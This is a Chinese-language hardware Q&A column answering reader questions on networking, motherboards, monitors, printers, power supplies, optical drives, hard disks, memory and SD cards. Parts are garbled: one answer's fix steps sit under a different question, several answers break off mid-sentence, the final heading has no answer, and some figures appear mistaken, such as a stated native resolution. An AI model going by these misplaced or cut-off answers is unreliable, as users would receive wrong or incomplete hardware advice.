答：听你的情况描述应该是路由器开启了DHCP地址自动分配功能，这样电脑在登录到网络的时候就会按照登录顺序被依次分配IP地址，“100”、“101”、“102”等等。你可以在电脑的网卡属性里面选择手动指定IP，例如锁定在“192.168.1.130”等（不要太靠前，否则会跟别人起冲突）。另外一种做法是为路由器制定DHCP分配规则，方法是登录路由器的设置菜单，选择“DHCP服务器静态地址分配”，在MAC地址栏中输入网卡的MAC地址，然后再到对应的选项中输入你希望固定的IP地址，这样一来你的IP地址就不会发生改变了。

## 千兆网络速度为何很慢

问：我现在使用TP-Link TL-SG1005D集线器组成一个局域网，电脑A使用主板自带的千兆网卡，电脑B使用Intel 1000MT Desktop Adapter千兆网卡，两台电脑均显示连接速度为1.0Gbps。但我在网络上拷贝一个4.29GB的高清视频文件，居然用时32分钟。这种情况正常吗？有没有办法让互传文件更快一些呢？

答：TP-Link TL-SG1005D是一款千兆交换机，而不是集线器，所以在传送信号时不会受到网络上其他电脑的影响。按照要求，千兆网络应该使用六类网线，而不是市面上最常见的超五类、五类网线，否则即便在系统中显示1.0Gbps，但是在实际传输数据时因为误码率太高（掉包严重），网卡就不得不花更多的“精力”去校验数据，速度自然就慢下来了。如果条件许可的话，建议同时更换网线和插座，千兆网络对布线的要求是非常苛刻的。

## 我的主板能支持新处理器吗

问：我使用的是一块七彩虹C.NC19 Ver 2.0主板。最近想升级到Core 2 Duo E6550处理器，请问我这块主板能够支持吗？

答：你说的这块主板（nFocrce C19+MCP51芯片组）时间已经很老了。当初这块主板主要针对单核的Pentium 4和Celeron D处理器，并不是针对双核产品的，而且这块主板能够支持的最高FSB只有1066MHz，但现在Core 2 Duo E6550的FSB高达1333MHz，所以不建议你这么升级。购买Pentium E 2140处理器应该是一个不错的选择（确认主板能否支持对应的处理器，请参考主板官方网站上BIOS对处理器的支持列表）。


## 关机后主板的USB接口仍然带电

问：我使用的是一块技嘉GA-M55SS3（nForce 550芯片组）的主板，发现关机后主板的USB接口仍然带电，插入的设备还在工作，可我记得关机后主板的USB接口也应该断电了啊。请问这是怎么回事？

答：一般来讲，电脑关机后除了+5VSB电源仍然在供电之外（留下这条线路主要是为了电脑的鼠标以及键盘唤醒功能），其他电路都会被切断。通常情况下，主板后面只有紧贴PS/2接口的两个USB接口是使用+5VSB供电的，其他USB接口都可以在关机后断电（不同的主板在设计时也存在明显差异，情况不一定完全相同）。你的设备如果插在前置的USB接口上就不会出现这个问题。另外，有些主板在BIOS中可以选择是否让USB接口使用+5VSB供电，将该选项选择为关闭，这样USB接口在关机后就不会有电了。

## 七彩虹C.P35 X3主板上网掉线还死机

问：我的电脑中使用的是采用P35芯片组的七彩虹C.P35 X3主板，集成了Marvell Yukon 88E8056千兆网卡，在上网过程中经常会出现电脑突然重启、断网或反应迟缓等问题。请问如何解决这个问题？

## 主板工作电压高于CPU工作电压正常吗

问：我的主板是升技AN52S，选用的是AMD Athlon X2 4200+ AM2(盒装)65nm的处理器，通过阅读技术资料我发现我这颗处理器的核心电压是1.25V，但在CPU-Z中看到的电压是1.312V；进入BIOS发现主板的默认电压设置是1.30V。我觉得这些电压要高于CPU的正常工作电压，这样一来会不会影响CPU的寿命？

- 1. 将Marvell Yukon 88E8056网卡驱动更新至10.22.7.3版，驱动程序可以到“驱动之家”网站或者七彩虹的官方网站下载。
- 2. 更新网卡EEPROM，下载地址同上，将下载下来的驱动程序压缩包“EEP8056 109.zip”解压后在纯DOS环境下运行“EEP8056.bat”批处理文件。
- 3. 重启后进入Windows系统，在设备管理器中双击Marvell 8056网卡，在弹出窗口中选择“高级”标签，并把“属性”菜单中的“流控制”设置“禁用”即可。

答：现在Intel和AMD的处理器都不再使用一个特定的值作为处理器的工作电压，取而代之的是一个最低电压/最高电压组成的“正常工作电压范围”。如AMD的Athlon X2 4200+处理器，TDP 65W版本的工作范围是1.25V/1.30V，89W版本是1.30V/1.35V；Intel处理器的电压适应范围就比较宽，如Core 2 Duo E6550的电压范围是0.850V/1.350V(如此宽的范围不排除使用了自动节能/降频技术的缘故)。另外，处理器对电压的影响也非常明显，所以处理器的正常工作电压参数请参考处理器包装上的参数说明。你说的这个问题应该在正常的电压范围内，厂商使用1.30V作为默认电压也是比较折衷的结果；需要注意的是有些厂商会在主板出厂时调高默认电压，将电压调高5%～10%左右可以提高超频能力，而且对于CPU来说也是可以接受的范围。

## Intel 945G芯片组主板主频太多不知怎么选择

问：我最近想购买一颗E2140处理器，朋友推荐我使用Intel 945G芯片组的主板。我在市场上逛了一圈，发现945G主板的FSB频率有800MHz、1066MHz和1333MHz的，到底哪个是正确的呢？是不是选择1333MHz的就一定比800MHz的更好？

答：从Intel的官方数据来看，945G芯片组只能支持800MHz或者533MHz的FSB频率，而很多主板上标注的1066MHz或者1333MHz是通过超频以及对芯片组的“破解”得到的，如华擎ConRoe1333-D667(R2.0)。单就E2140处理器来说，它的前端总线频率只有800MHz，所以使用普通的945G主板就完全够了；如果考虑到日后升级或者超频的需要，可以选择FSB频率更高一些的主板。另外在购买时要注意，现在市面上主流的产品是使用945GC芯片组的主板，而早期的一些产品在使用945GZ芯片组，前者可以支持完整的PCI-E x16，后者则只有4条PCI-E通道(即显卡工作在PCI-E x4下面)。

## 集成主板不能安装Windows Vista SP1吗

问：Windows Vista SP1补丁发布了，里面有一条“新补丁加入了对DirectX 10.1技术的支持，认证时需要硬件支持”。请问是不是这样就意味着我们这些使用Intel集成显卡(不支持DirectX 10)的用户就不能安装新补丁了呢？

答：你误解了这句话的意思。微软要求“Windows Vista Premium”认证必须要有一块支持DirectX 10的显卡(包括集成显卡)，否则就不能继续打上“Windows Vista Premium”的标志进行销售，用户已经购买了的电脑当然不受影响。另外DirectX是一个关于音频、视频以及其他各种接口程序的API软件，它的版本与硬件没有任何关系，就算你仍然使用DirectX 8.1的显卡，同样可以升级操作系统，只不过是软件版本升级到DirectX10.1(有些特效硬件方面不能够提供支持而已)。系统的DirectX软件版本与硬件没有直接的关系，到时候放心升级就是了。

## 显示器常常自动待机




问：我现在使用的是一台LG 194WT液晶显示器，显卡是昂达7900GS神戈版，二者使用DVI信号线进行连接。在使用过程中显示器经常会进入节能模式(指示灯变为橙色)，此时敲打键盘和鼠标都不能显示画面，但主机没有问题。请问如何才能解决问题？

答：出现这种问题很有可能是信号不稳定造成的。昂达的7900GS神戈版有两个DVI接口，建议你更换一下接口试试看，同时检查一下连接显示器的那一端是否固定到位。普通DVI信号线的长度在1.5m～2m之间，如果信号线过长也可能出现此类问题。如果排除上述原因之后依然存在故障，建议用替换法检查，找出问题出现在显卡端还是显示器端，然后联系经销商咨询解决办法。

## LCD显示器有必要贴膜吗


问：最近刚买了一台22英寸宽屏LCD显示器，很多朋友建议我再去买一张保护膜给屏幕贴上，据说还可以提高亮度、增加可视角度。请问真有这么回事吗？保护膜大约多少钱一张？我还看到过一种钢化玻璃的镜面屏，哪种更好一些？

答：现在的LCD保护膜从几十元到上百元不等，质量有好有坏。很多产品宣传自己有提高亮度、增加可视角度乃至于防静电等多种用途，但细想一下这些功能大多没有可靠的依据。其实这类产品真正的作用是防止LCD表面被划伤，在沾上灰尘时也更好清洁一些。另外你说的钢化玻璃镜面屏，实际上是一种屏幕保护装置，但价格较贵，而且安装后可能会影响显示效果，一般不推荐使用。

## 22英寸显示器在使用时距离多远比较合适

问：最近家里刚添置了一台22英寸宽屏LCD显示器。以往看惯了15英寸的普屏LCD，在使用新显示器时感觉特别别扭，家里人也有脖子酸疼的感觉。不知道是不是距离的原因，请问在观看大屏幕显示器时一般要距离多远呢？

答：“距离LCD多远比较合适”，这个问题要因人而异。一般说来与显示器的距离保持50cm～80cm之间比较合适，而且进行不同的操作时情况还不太一样：进行文字录入时需要距离近一些，但是在玩游戏或者看电影时距离稍远一些也没有影响。你可以简单试一下，在正对LCD的中轴线上向后移动，显示器与眼睛之间的夹角在60°～30°之间，不需要扭动脖子来观看显示器为佳。

## 显示器播放视频时出现水波纹

问：最近遇到一个非常棘手的问题，我的20英寸LCD在播放高清视频时出现明显的水波纹图像（在黑白画面反差较大时尤为明显），但玩游戏或者显示桌面就非常正常。是显示器出故障了吗？

答：测试水波纹推荐使用专门的显示器测试软件（如《Displaymate》）。根据以往很多人的经验，如果LCD的控制电路做得不好，很容易在屏幕上方1/5左右的显示区域出现水波纹，与当前显示的画面无关。根据你的描述，玩游戏和现实桌面时一切正常，那么你看到的“水波纹”很可能是因为视频文件在“作祟”，现在有很多1080i的高清视频文件，这种隔行扫描的视频在解码时如果画面的对比过大就会出现明显的线条（尤其是在开启显卡硬解码的时候）。另外一种情况就是LCD显示器的模拟信号滤波电路没有设计好，换用DVI信号线来输入信号看情况能否改善。

## 游戏机外接多大的显示器好

问：最近刚购入一台SONY PS3游戏机，准备再买一台LCD与之搭配，很多朋友向我推荐24英寸的明基G2400W。请问TN屏幕的效果如何？另外我还在22英寸和24英寸之间徘徊，点对点真的很重要吗？

答：PS3游戏机可以支持Full HD（1920×1080）规格的视频输出，为了充分体验游戏的震撼感觉，搭配一台Full HD的显示设备也是很有必要的。不过话说回来，显示游戏画面不同于显示文字，即使不能做到点对点显示，大多数用户也能够勉强接受（只是锐利程度远远低于点对点时的显示），选择22英寸还是24英寸关键还看你的预算。

## 显示器改变分辨率后图像变形

问：最近刚购入一台20英寸宽屏LCD显示器。日常使用时发现字体太小了，朋友建议我换到1280×1024的分辨率就好了；但是我发现这样做的话，字变大了、但图片都被拉扁了。请问是这样的吗？

答：对于LCD显示器来说，都有一个最佳分辨率，在最佳分辨率下文字和图片都是最锐利的；反之，如果在非最佳分辨率下，文字边缘会变得模糊，图片的显示质量也会下降。对于20英寸的宽屏LCD来说，最佳分辨率是1650×1050，建议你就使用这个分辨率。对于字体过小的问题，你可以在Windows中设置使用大字体，方法是：桌面→属性→外观→字体大小→大字体（特大字体）；如果有特殊要求的话，还可以在该页面的“高级”菜单里面进一步调节每个选项的字体和字号。

## “墨粉用尽”时还能继续打印吗

问：我们部门最近刚添置了一台激光打印机，由于平日里打印量较大，打印服务器经常出现“墨粉用尽”的提示，我们发现此时仍然可以继续打印。请问长期这么使用会不会对打印机造成伤害呢？

答：你说的这个问题是耗材厂商的程序设置问题。很多原厂耗材都会通过内置控制芯片的方式来监测当前硒鼓（或墨盒）的打印量，当达到一定数量的时候，就会提示用户“耗材已经用尽，请更换新的耗材”等信息。这样做可以保证用户得到最好的打印效果，不过在用户看来就是一种浪费了。以你的情况为例，出现“墨粉耗尽”提示时打印机的存墨量可能还有30%～40%，用户完全可以继续打印而不理会提示，待到打印效果出现下降时（如黑度降低、某种颜色缺失等），就需要更换硒鼓或者墨粉盒了。

## 打印机无法正常进纸

问：我现在使用的是一台爱普生喷墨打印机，在打印过程中不能一页一页地进纸，总是一下子将很多纸一起吸进去。请问碰到这种问题我要如何解决呢？

答：进纸系统出现故障是打印机常见的一类问题。出现此类故障的原因主要有以下几点：纸张过薄，建议换用标准厚度的纸张，或者调解打印机的“纸张厚度调节杆”（如果有的话）；静电因素，碰到这种问题时，需要在打印之前将纸张分离开来（以扇形方式推开即可）；取纸辊出现故障，简单问题可以自行调试一下，如果无法解决的话可以找专业维修人员进行处理。

## 一体机倾斜放置会不会造成硬盘损伤

问：公司最近给我们部门配备了一批一体计算机，很多人都习惯性地把屏幕放置成一个倾角，以前玩DIY的时候知道硬盘只能水平或者垂直放置；而一体机的硬盘都是固定在显示器背部的（屏幕倾斜时自然硬盘也会倾斜），长期使用会不会因此导致故障？

答：这种担心是多余的。只要支撑位足够稳定、硬盘在工作时不会发生剧烈振动，即使有一个倾角也不会影响到硬盘的正常使用。硬盘的盘片是对称性结构，在转动时并不会因为倾角的存在产生不均衡的振动；同时盘片材料的刚度以及硬盘的使用频率，也决定了硬盘的盘片不会像光盘那样容易发生形变。再加上一体机多数使用的是2.5英寸的笔记本电脑硬盘，盘片直径较小，抗震能力等各方面都要比3.5英寸台式机硬盘更优秀。所以你的担心是完全多余的，照

## 音箱“漏电”是怎么回事

问：我去年购买了一台音箱，最近一段时间发现音箱背部的螺丝和铁板都有漏电现象，还有就是触摸调节旋钮处的包铁也有麻麻的感觉。请问漏电会影响音质吗？如何解决漏电的问题？

答：“漏电”不会对音质产生不利影响，但是你最好关注一下安全的问题。一般来讲，音箱产品都使用两跟脚的插头(也就是不受交流电“左零右火上接地”的影响)，而且音箱产品在设计时肯定会有相关的防护措施，从音箱本身漏电的机会不是很大。那么你说的“漏电”就很有可能是因为机箱没有接地造成的，建议你取下与PC相连的音频信号线，看漏电的问题是否依然存在。如果是，则说明音箱产品本身可能存在个体问题，找经销商进行更换；如果不是，则是机箱的接地存在问题，需要换用带接地功能的插线板。



## 什么规格的电源才能支持三块硬盘

问：我使用的是一台联想品牌机，现在一共有三块硬盘在运转(原配的迈拓80GB+、希捷160GB+、西数320GB)。自从加上第3块硬盘之后感觉电源比较吃紧，请问现在硬盘的功耗一般有多高呢？我要配多大功率的电源比较合适？

答：硬盘在启动时往往需要很高的电流，所以硬盘的峰值功耗多出现在启动瞬间，大约在25W~40W之间(只有几秒的时间)；启动之后在正常工作状态下，功耗一般维持在15W~20W左右。需要注意的是，老产品往往功耗较高，而新产品由于加入了各种节能技术，整体功耗较低(业界有些产品已经做到正常工作时13W左右，待机时只有8W)。按照你的情况，3块硬盘在启动时的瞬间负载会高达75W~100W，甚至更高；而品牌机在电源的选择上往往比较保守(诸如额定功率200W、峰值功率260W等)，对电源来说是个不小的负担。如果资金充裕的话，不妨考虑更换一块功率更大的电源(300W或以上)；也可以购买一个带有外接供电模块的硬盘盒，将一块硬盘作为移动存储设备，这样也可以缓解电源的压力。

## 用功率计算器估算的电源功率准确吗

问：我最近打算升级电脑，准备购买如下配件：Core 2 Duo6550、GeForce 8800GT以及P35芯片组的主板。很多杂志和网友都说要用400W的电源，但我用航嘉网站上提供的功率计算器算出来的结果只要250W左右，为什么一定要上400W的电源呢？如果用大功率电源，但实际功率又长期达不到，会不会对电源造成损坏，反过来讲是不是一种浪费呢？

答：航嘉提供的电源功率计算器是为大家在购买产品时提供一个参考，但电脑工作时的负载是随时变化的；这个功率计算器只是一个简单的叠加功能，它只会告诉你这些配件在正常工作时加起来的总功率是多少。在购买电源时，我们要按照这个参考值再预留一些余量来考虑问题。以你的情况为例：虽然现在的参考值是250W，就应该购买300W的电源，但是考虑到日后可能的超频应用、第二块硬盘、第二台光驱等，购买350W左右的电源产品为宜。至于更高功率的产品，只表示该电源内部的元器件能够承受更大的电流，在设计时能够满足更大的负载要求；而转换效率则要因具体的产品设计而定，不能说“大马拉小车”效率就一定低，但“小马拉大车”绝对会引起发热量剧增等并发症。

## 老电源还能用吗

问：我在网上看到了一款海韵300W的电源，价格非常便宜，内部材料和做工都分量十足，唯一美中不足的是采用老的ATX 12V 1.3版本。想请教一下购买这款电源是不是真的物有所值呢？

答：这个要因你的平台而定。如果你还在使用老平台，如Pentium 4 Socket478与AGP显卡的组合(或同级产品)，那么这款电源的确是物有所值。但是如果你打算用在新平台上面，或者是为了升级而预先购置的电源，那就不是很明智了。原因在于Intel ATX 12V 1.3版电源的强项是+5V输出，而其他输出回路相对较弱；现在主流平台的供电需求已经明显偏向于+12V，所以使用1.3版本的老电源不一定能够满足供电的需求。如果不是想让老平台继续服役的话，还是多考虑一下Intel ATX 12V 2.0/2.2/2.3版本的电源产品，其中，2.0版本针对高功耗显卡强调了双路独立+12V输出，2.2版本在原来的基础上强调了双核CPU的启动电流；2.3版本则将电源分为两类，额定功率大于280W的依然使用双路+12V，小于该数值的则使用单路+12V输出。

## 升级显卡之后电源不支持

问：最近我的显卡出现了花屏的问题，想借此机会升级一块Radeon HD 2600Pro显卡。现有配置是Athlon X2 3600+、精英RS482-M主板、金泰克2GB DDR400内存，WD 160GB硬盘、DVD光驱以及航嘉250W电源。朋友说品牌机的电源与零售的电源不同，请问是否需要一块升级电源？要买多大功率的呢？

答：就你目前的配置来看(加上Radeon HD 2600Pro显卡)，250W的电源足够满足你的需求，暂时没有必要更换电源。至于你所说担心的品牌机电源与零售电源的差异，实际上只是极少数情况。部分品牌机由于机箱结构的局限(如一些超小型机箱)，没有办法装下普通ATX尺寸的电源，因此会使用一些特殊形状(或尺寸)的Mini电源；除此之外，在输出电压以及接口方面与普通ATX电源没有差异。而且Radeon HD 2600Pro不需要特殊的6Pin供电接口，直接从主板上的PCI-E接口取电就行了。

## 刻录机只能刻录不能读盘



问：不久前我刚买了一台BenQDW2000刻录机，最近出现一个严重的问题：只能够刻录DVD光盘，刻录完成之后不能够正常读取，系统提示“空白光盘”，但是这张光盘放到其他光驱上却可以正常读取。我也换过不同品牌的碟片，刻录软件使用Nero，问题依旧。请问这个问题要如何解决？


答：请先尝试一下这台刻录机能不能读取压制的光盘(非刻录光盘)，如果可以正常读取，则说明是光头在读取刻录光盘的Lead-In(导入区)信息时出现了定位偏差。Lead-In数据是刻录光盘特有的引导信息，位于光盘最内侧，如果过头定位发生偏移就可能导致系统读取Lead-In时出错，进而认为光盘是空白盘片。如果连压制光盘也无法读取，则说明光头的机械系统已经出现问题。你只能是找经销商要求调换了。

## 刻录DVD视频光盘播不了

问：我刚购置了一台三星DVD刻录机，我将一些从网上下载的RMVB文件刻录成DVD与大家分享，但是很多朋友说我的碟片在DVD播放机上不能够流畅播放(每隔一段时间就会出现画面卡住或者声音异常的情况)，但是在电脑上播放一切正常。我换用了很多编辑软件和刻录工具，然后降低刻录速度，问题依然没有得到解决，这是怎么回事呢？

答：这是因为正版DVD都是压制光盘，盘基的透过率与反射率参数与刻录盘存在巨大差异，而且压制DVD光盘与刻录DVD光盘的Title文件也不尽相同，所以很多(老式)DVD播放机对刻录光盘的支持不是很好。如果确实需要刻录的话，根据一些刻录发烧友的经验，使用DVD-R的盘片兼容性会稍微好一些。

## 刻录机“高兼容性边界错误”是怎么回事

问：家里有两台刻录机，一台是LG的6143B，另外一台是先锋DVR-112CH。以前一直使用威宝的DVD+R盘片，但最近新买的一桶五彩盘之后，先锋刻录机一直提示“高兼容性边界错误”，而LG的刻录机一切正常。请问如何解决这个问题？

答：这是一个软件提示，但是造成这个问题的原因有很多。软件方面，在Nero的刻录机选项中，有一个“DVD高兼容性模式”，尝试将其关闭；而后刻录文件(总容量)不要小于1GB，否则也很容易引发这个问题。硬件方面，光头寻轨或者聚焦存在问题也会出现这样的提示。建议你更换其他型号的刻录光盘试试，如果都有问题而且Nero的选项也调整过，那就是刻录机本身出故障了，需要更换。

## 刻录机无法刻录D9光盘

问：我使用的是一台Plextor 740A DVD刻录机。最近在刻录Banana牌的D9光盘时接连发生错误(每次都是在52%左右)，以前用过三菱的D9刻录盘一切正常，平时刻录D5光盘也没有任何问题。请问这个问题要如何解决？

答：你说的这个问题很有可能是刻录机的Firmware过老造成的。Plextor 740A是一款老型号的DVD刻录机了，最新的Firemware是1.02版(可以到官网上下载)。Firmware中含有大量刻录光盘的UID代码以及对应应该代码的最佳刻录(方式)数据，如果你选择的刻录盘在Firmware中没有记录，刻录机就会用默认方式进行刻录。这对于单层光盘来说问题不是很大，而对于单面双层的D9光盘来说就可能出现兼容性问题。你说的52%左右的位置正好是D9光盘两个数据层交替的位置，此处非常容易出错。由于该款刻录机停产已久，Fireware也是久未更新，建议你更换刻录光盘或者升级刻录机。

## 如何识别先锋刻录机的编号

问：最近想购买一台DVD刻录机，朋友建议说先锋的产品口碑不错。但我到市场上逛了一圈，发现型号非常混乱，很多朋友也说不出其中的差别。请问这是怎么回事？

答：总体说来先锋的刻录机分为两个大系，“1”打头的产品使用传统的PATA接口，如DVR-115CH/115XL等；“2”字打头的产品表示SATA接口的产品，如DVR-215CH等。然后不同的后缀表示不同的产品定位以及功能，相同的数字型号后缀为CH表示低端产品，XL表示高端产品。以DVR-115CH/XL为例，二者关于刻录的技术指标完全一致，所不同的是XL使用钢琴烤漆面板看上去更加时尚，而且XL系列有蜂巢静音功能，CH系列则没有。后缀为K的产品表示支持光雕功能，例如DVR-212K。至于更细的差别，例如DV R-115B/DXL，“B”和“D”则表示不同的面板颜色。

## DVD刻录机图标总是丢失

问：最近入手一台DVD刻录机，但是在我的电脑里面找不到光驱的图标，而且每次开机自检时都会花很长时间去检测IDE设备，但最后还是显示为“None”。我检查过排线，没有发现任何问题，现在我要怎么办呢？

答：从你的描述来看，很有可能是硬件故障或者是设备冲突造成的。建议你首先检查光驱的数据线、电源线是否连接可靠(有没有松动、或者接口处有没有断针的情况发生)。其次如果光驱与其他IDE设备挂在同一根排线上，请手动设定主设备与从设备(Master&Salve)或者选择Cable Select(由设备连接线来自动分配，距离主板较远的那端为主设备、较近的为从设备)。如果依然没有改善，建议用替换法检查一下，看是否是光驱本身的问题。

## 新买的硬盘就有坏道

问：我购买了一块希捷250GB的硬盘，型号是ST3250410A，拿回来之后就发现了坏道，到经销商那里换了一块。但这两次拿到的产品包装盒都很旧，上网查都是伟仕代理的正品，还有就是### 用Everest查看显示16MB缓存，但使用HDTune查看就是8MB，请问我是不是买到水货了呢？

答：从型号上来看，ST3250410A是希捷250GB、16MB缓存的产品。至于你所说的水货问题，很难说清楚，因为国内代理商的渠道非常混乱，很多时候都是运散装硬盘过来，然后代理商自行包装当作盒装来出售。贴在包装盒上的查询代码是真的，至于里面的硬盘就很难说了（很多正规代理商会在硬盘本体上贴有防伪镭射标签，有些标贴上会有全国唯一的产品序列号）。所以购买时一定要找当地实力较强的代理商，日后出现问题凭发票收据就可以解决。另外你说的硬盘缓存问题，可能是因为HD Tune的版本过老造成识别错误，建议你升级软件试试看。再有就是HD Tune等软件可以查看硬盘的启停时间，从软件显示的硬盘总开机时间上就可以判断硬盘的新旧。

### 测试的硬盘传输速度总是一条直线

问：最近刚购买了一块希捷120GB原装移动硬盘，用HDTune测试时发现硬盘的传输曲线是一条非常平滑的直线（25MB/s左右），只是在尾部略微下降。以前看过很多评测的测试图，为什么测试出来的都是下降曲线，而我的是一条直线呢？

答：这是因为现在硬盘都是从外圈开始读取数据，在转速恒定的条件下外圈的线速度就要比内圈快很多。你的情况是因为USB控制芯片的限制，这颗USB芯片的极限传输速度只能达到25MB/s左右，所以只要硬盘的实际速度高于这个值时就会得到一条平滑的直线，而到了后期由于硬盘的传输速度降低，所以才会低于25MB/s。这种情况在使用USB 2.0 Hi-Speed/IEEE1394A接口的移动硬盘上是完全正常的，所以不必担心质量问题；如果移动硬盘有e-SATA接口，那么建议使用e-SATA得到最高的传输性能。

### 新硬盘速度慢过老硬盘

问：我刚买了一块西部数据的250GB硬盘（WD 250JS），原来还有一块希捷7200.7 80GB硬盘，我给两个硬盘都装了Windows XP操作系统，一个用于上网和玩游戏，另外一个只用于工作。在系统启动时发现希捷的硬盘要比WD快很多，为什么新硬盘的性能还不如老硬盘？

答：这样“测试”是不正确的。因为两个操作系统加载的启动选项不一致，所以一个快、一个慢并不能说明什么问题。如果要测试硬盘性能的话，建议使用专用的测试软件，如HD Tune。在测试的时候还要关闭其他一些可能影响性能的软件，如部分后台运行的杀毒软件及一些伺服程序，以保证结果准确。另外硬盘的性能主要由转速和存储密度来决定，因此市面上主流的7200rpm硬盘性能非常接近（60～70MB/s），在使用了垂直存储技术之后性能会有一定的提升（70～80MB/s）。你现在使用的两块硬盘都是普通的硬盘，性能上应该差别不大（或者说单碟容量更大一些的WD硬盘，性能应该稍微好一点）。

### 老移动硬盘无法被识别

问：最近新装了一台电脑主板是双敏UP35AX，发现原来的移动硬盘在新电脑上无法正常识别，系统总是提示“Unknown Device”。但是这块移动硬盘在老电脑上（USB1.1）识别正常，难道是USB 2.0与USB 1.1的兼容性问题？请问该如何解决这个问题？

答：这种问题属于极个别现象，USB 2.0 Hi-Speed可以很好地兼容USB 2.0 Full Speed（原USB 1.1）。建议你重新换一个USB接口试试看，如果是供电不足的问题，建议使用那种带第三个USB取电接口的数据线（最好不要用延长线）。另外，根据很多用户的经验，Windows Vista对USB设备的支持能力要比早期的Windows系统更好一些，可以尝试更换操作系统，看问题能否解决。

### GHOST无法备份硬盘数据

问：我使用的是联想开天4600（Pentium 4 1.8GHz、256MB内存、40GB硬盘）电脑，想要用Ghost备份系统，但是每次在DOS下面一点“开始”按钮就自动重启，这是怎么回事呢？

答：建议换用最新版本的Ghost软件，8.2之前的版本没有办法支持NTFS分区格式。另外备份系统的时候要选择不同的分区（如果选择备份C盘，是不能够把备份文件也放在C盘上面的），而且存放备份文件的分区剩余空间要足够大，如果不满足要求，事先需要删除一定的文件。如果换用新版本的软件之后依然存在这种故障，请检查一下引导光盘（或软盘）以及光驱等设备是否工作正常。

### PC2 5200/5300/5400内存有什么差别

问：现在很多网站上看到DDR2 667内存产品有标注PC25200、5300以及5400的，是不是5400的就一定比5200的好，这种表示方法是如何计算的呢？三者之间可以混用吗？

答：这是JEDEC（内存标准的制定者）推荐的一种对内存性能表示方法：“PC”表示第一代DDR内存，“PC2”则表示DDR2内存，后面的数字=内存物理时钟频率×等效数据倍发系数（DDR内存是2、DDR2内存是4）×内存总线带宽（64bit）÷8（bit/Byte）。如此计算得出DDR2 667内存的参数应该是166.6MHz×4×64÷8=PC2 5300，为了书写方便一般都用PC2 5300来表示。现在市场上看到的PC2 5200内存实际上都是SO-DIMM接口的笔记本内存，多数厂家会以PC2 5300来标注自己的台式机内存产品，少数以超频为卖点的厂商（如G.Skill，OCZ等）会把自己的内存标注为PC2 5400。这就是三者之间的差异，PC2 5300和PC2 5400可以混用，而PC2 5200则是笔记本内存。

### 内存容量比实际少了

问：我使用的是华硕A8JrAS笔记本电脑，配置情况：CPU是T2130的，显卡是ATI的X2300（当时骗我说有1GB显存），内存1GB。现在新购入一条威刚2GB内存，插在电脑上不能进入Windows，而且在BIOS中显示2944MB（按理说应该是3072MB才对）。请问内存容量也会缩水？

答：现在很多显示芯片在设计时非常灵活。以ATI X2300来说（这是第一款支持DX10的移动芯片），既可以与128MB显存搭配，也可以搭配256MB显存，而在驱动程序中通常显示的是显存与调用系统内存部分的总和，所以才会有“1GB显存”（256MB显存+768MB系统内存）的说法。你所说的BIOS识别2944MB内存的问题，也是因为系统预先将128MB系统内存调给显卡使用所致，并不是“缺斤短两”。关于系统无法启动的问题，既然BIOS可以正常识别并启动，所

### 打开双通道需不需要改动BIOS设置

问：前两天我购买了一条金士顿1GB DDR2 800内存条，与我原配的内存条一个型号，经销商也信誓旦旦地保证，金士顿的兼容性很好绝对可以打开双通道。但是装在我的微星K9 Neo V3主板（nForce 560芯片组）上，用CPU-Z查看依然是单通道。请问安装双通道内存是不是有什么特别的要求，或者需要在BIOS里面改动某些设置呢？

答：安装双通道内存的时候，不需要调节BIOS选项，只要把两根内存条插在同颜色的插槽上即可，对于你的主板来说就是1和3、2和4。有些主板对组成双通道的内存比较挑剔，要求同规格、同批次的产品，而你的两条内存购买时间相差较大，可能已经换用了不同的颗粒，所以组成双通道时就出现了问题。现在最好的解决办法是卖掉原来的老内存，然后买两根新的内存来组双通道。根据一些朋友的经验，如果两条内存的规格存在差异，互换两条内存的位置（让规格较低的内存在前），也可以解决部分无法打开双通道的问题。

### 双通道能否支持不同容量的内存混装

问：我现在使用的是一块nForce 570SLI主板、两条512MB DDR2 667内存，打算再购买2条1GB（或者2条2GB）的内存与原来的一对内存一起使用。但是AMD平台的产品好像都不支持弹性双通道，请问我能够顺利开启双通道吗？如何查看双通道是否已经开启？

答：“弹性双通道”技术是指在容量不对等的内存（如512MB与1GB）之间开启双通道，这项技术是Intel研发的，并在9系列的主板上不断完善（从965之后的芯片组都可以完整支持，但915和945芯片组只具备其中的部分功能）。这和你所说的“混装”不是一个概念，在大多数情况下我们只需要保证A1与A2、B1与B2内存插槽上的两对内存容量一致（分别相等）就可以了。在启动电脑之后屏幕上出现“Dual Channel”字样（或者用CPU-Z查看内存选项，在内存模式里显示“Dual”），则表示双通道成功开启。最好在购买时跟老板说明情况，如果出现不兼容或者其他问题可以调换。另外建议你购买1GB×2就可以了，因为4GB内存容量的限制，更大的内存在现阶段对普通用户的使用来说没有用武之地。

### SD卡的Class级别有什么含义

问：最近想买一块大容量的SD卡，但是在包装上只看到“Class 4”或者“Class 6”的标记，找不到其他关于速度的参数，而且不买的话商家也不让我拆封。请问我如何才能知道这块卡是“80X”还是“150X”的呢？

答：你说的“80X”和“150X”，是SD卡以前使用的规范，即1X=150KB/s，这也是1X CD-ROM的读写速度。从SD 1.1版本升级到SD 2.0（即我们常说的“SDHC”）版本之后，业界启用了一种新的标识方法，那就是Class级别，不同的级别分别对应不同的设备。需要注意的是，如果你选择大容量的SDHC卡，最好选择Class 4或者Class 6的产品，否则会因读写速度不够而增加拷贝数据的时间。至于你所说的实际速度问题，建议你平时多留意杂志上的评测数据；此外一些负责任的厂商，也会在产品包装盒上给出一组参考数据，请好好找一下。

### SD卡容量越大越费电吗

问：我购买了一部智能手机，经销商说手机上插的SD卡容量越大越费电，没有必要买大容量的存储卡，请问有这种说法吗？还有就是Class 6的SD卡是不是就比Class 2的卡更费电呢？

答：首先并没有容量越大越费电的这种说法，SD卡的耗电量取决于内部控制芯片以及闪存芯片的耗电量。对于大容量SD卡产品而言，多数都是近期产品，新产品往往会使用更新的控制芯片以及闪存芯片（最新的制程已经到了43nm），于是新产品的功耗甚至比老产品更低。如果说到读写速度，Class 6的产品在读写时往往会比Class 2的产品发热量更大一些，但是这点功耗对于智能手机和数码相机而言，都可以忽略不计，实在没有必要在这个问题上纠缠。不过需要注意的是，多数智能手机对扩展卡的要求并不高；Class 2的产品已经完全够用了，没有必要追求更高速的存储卡；而且智能手机操作系统对扩展卡的容量上限也有要求，所以购买之前要先确认手机能够支持存储卡的最大容量。

### 笔记本电脑的一键还原功能失效

